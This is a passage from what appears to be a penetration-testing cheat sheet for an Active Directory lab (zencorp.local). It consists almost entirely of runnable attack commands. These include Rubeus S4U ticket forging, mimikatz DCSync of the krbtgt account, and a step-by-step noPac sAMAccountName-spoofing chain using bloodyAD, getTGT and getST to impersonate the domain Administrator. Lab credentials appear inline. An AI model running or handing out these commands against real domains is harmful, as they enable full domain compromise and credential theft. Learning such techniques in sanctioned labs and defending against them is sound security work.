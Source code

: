 Finally use ticket to request a Service Ticket in this case for DCSync.

```powershell
# Get Ticket
.\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:"ldap/dc03.zencorp.local" /dc:172.18.88.10 /ptt /ticket:doIFJDC

# DCSync
.\mimikatz.exe "lsadump::dcsync /domain:zencorp.local /kdc:dc03.zencorp.local /user:krbtgt" exit
```

### <mark style="color:yellow;">Abusing sAMAccountName Spoofing from Linux</mark>

Enumeration

```bash
python3 noPac/scanner.py -dc-ip 10.129.229.224 zencorp.local/aneudy:Ilovemusic01 -use-ldap
```

With GenericAll/FullControl or GenericWrite, check for SPNs

```bash
python3 bloodyAD.py -d zencorp.local -u aneudy -p Ilovemusic01 --host 10.129.229.224 get object felipe | grep "servicePrincipalName\|sAMAccountName
```

Clear the SPN

```bash
python3 bloodyAD.py -d zencorp.local -u aneudy -p Ilovemusic01 --host 10.129.229.224 set object felipe servicePrincipalName
```

Modify the sAMAccountName to match the DC without the `$`.

```bash
bloodyAD.py -d zencorp.local -u aneudy -p Ilovemusic01 --host 10.129.229.224 set object felipe sAMAccountName -v DC03
```

Request a TGT for DC account using user creds

```bash
getTGT.py zencorp.local/dc03:Hacker0039 -dc-ip 10.129.229.224 
```

Revert the sAMAccountName

```bash
bloodyAD.py -d zencorp.local -u aneudy -p Ilovemusic01 --host 10.129.229.224 set object DC03 sAMAccountName -v felipe
```

Request a S4U2self service ticket with dc.cache

```bash
KRB5CCNAME=dc03.ccache getST.py zencorp.local/dc03 -self -impersonate 'Administrator' -altservice 'cifs/dc03.zencorp.local' -k -no-pass -dc-ip 10.129.229.224
```
